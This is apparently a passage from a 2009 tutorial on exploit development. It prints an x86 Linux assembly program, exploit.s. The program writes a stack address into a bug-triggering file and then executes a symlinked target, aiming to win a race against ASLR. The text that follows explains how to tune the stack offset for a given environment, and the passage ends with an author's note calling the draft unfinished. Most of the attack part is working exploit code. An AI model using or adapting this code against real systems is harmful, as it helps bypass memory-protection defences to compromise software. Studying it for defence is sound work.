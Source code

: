     ; exploit.s
    ; ooohhh yeah
    ; gotta love assembly
    global _start;
    
    _start:
    
        ; open("./a",  O_WRONLY | O_APPEND, S_IRWXU)    
        mov eax, 0x5;
        push 0x00612f2e;
        mov ebx, esp;
        mov ecx, 0x401;
        mov edx, 0x1c0; 
        int 0x80; 
    
        ; write (fd from open, esp, 4);
        mov ebx, eax;
        mov eax, 0x4;
        push esp;
        mov ecx, esp;
        mov edx, 0x4;
        int 0x80;
    
        ; execve ("./p", NULL, NULL);
        mov eax, 0x0b;
        push 0x00702f2e;
        mov ebx, esp;
        mov ecx, 0x0;
        int 0x80;

The assembly code given above is a re-write of the C code to append a stack address (in this case, the esp register) to the file which triggers the bug (here, named "a") in the local directory. It then calls "./p" with execve: ideally an attacker could create a symbolic link of "./p" to link to the target program. The idea in doing this is to be as brief as possible in execution by using the shortest amount of data possible. This is optimized and executes measurably faster than the C due to less ops. In turn, this allows an attacker a greater chance of successful exploitation in the "race-condition" against the ASLR update time window. This code will require yet another updating of the relative stack offset (what was 1924 bytes in the C example, and 2176 in the original demonstration) for proper use. The value will be dependent on the environment where exploitation is happening, however hopefully this article has conveyed enough understanding to make that process easily understood.

FIXME: THIS SECTION NEEDS FIXING UP!!! [dear reader: hopefully you get the idea by now. we plan to fix this up more. we have more stuff to write but really just wanted to get an initial draft of some content online! email my punk ass if this article dies and you want more info -drraid, 5/27/2009]
